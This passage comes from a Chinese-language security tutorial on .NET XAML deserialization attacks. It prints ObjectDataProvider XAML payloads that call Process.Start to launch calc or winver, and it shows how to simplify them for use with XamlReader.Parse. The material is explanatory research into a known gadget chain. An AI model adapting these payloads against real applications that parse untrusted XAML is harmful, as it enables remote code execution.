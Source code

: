 如果在顶层容器里没有找到Window.Resources，程序还会继续上升到Application.Resources去寻找资源，所以我们把恶意代码引入到  Application.Resources 也可以被调用运行。结合 XmlSerialize反序列化给出的Payload看一下XAML，是不是感觉容易多了？

```xml
<![CDATA[
<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
xmlns:b="clr-namespace:System;assembly=mscorlib" 
xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <b:String>cmd</b:String>
            <b:String>/c calc</b:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>]]>
```

clr-namespace:System.Diagnostics 程序集是必须的，需要靠它调用Process类启动新进程。但还可以进一步简化，clr-namespace:System 因为不是必须的所以对应的名称空间 xmlns:b可以不用，MethodParameters也就无需再使用`<b:String>`元素，另外`<ResourceDictionary>`也可以用`<Window.Resources>` 或者 `<Application.Resources>` 、`<Grid>`控件去替代，代码如下

```xml
<Grid xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <Grid.Resources>
        <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
            <ObjectDataProvider.MethodParameters>calc</ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </Grid.Resources>
</Grid>
```

## 0x05 攻击面

### XamlReader.Parse

ysoserial在XmlSerializer反序列化链中使用XamlReader.Parse解析XAML字符串并返回新对象， 转到定义可见有2个方法重载，官方文档有如下注明

>Reads the XAML input in the specified text string and returns an object that corresponds to the root of the specified markup.

![](https://img1.dotnet9.com/2022/05/5907.png)

笔者创建测试用例存储于Dictionary2.xaml 如下代码，`ObjectType="{x:Type TypeName=local:Process }` 可省略TypeName，另外资源检索键名ResourceKey也可以省略，`Source={StaticResource ResourceKey=obj}`

```xml
<Window 
        xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
        xmlns:d="http://schemas.microsoft.com/expression/blend/2008"
        xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006"
        mc:Ignorable="d"
        xmlns:local ="clr-namespace:System.Diagnostics;assembly=System"
        Title="MainWindow" Height="450" Width="800">
    <Window.Resources>
        <ObjectDataProvider x:Key="obj" ObjectType="{x:Type local:Process }" MethodName="Start">
            <ObjectDataProvider.MethodParameters>"winver"</ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </Window.Resources>
    <Grid DataContext="{Binding Source={StaticResource obj}}">
        <Button Content="Button" HorizontalAlignment="Left" Margin="300.085,187.924,0,0" VerticalAlignment="Top" Width="139.599" Height="45.517"/>
    </Grid>
</Window>
```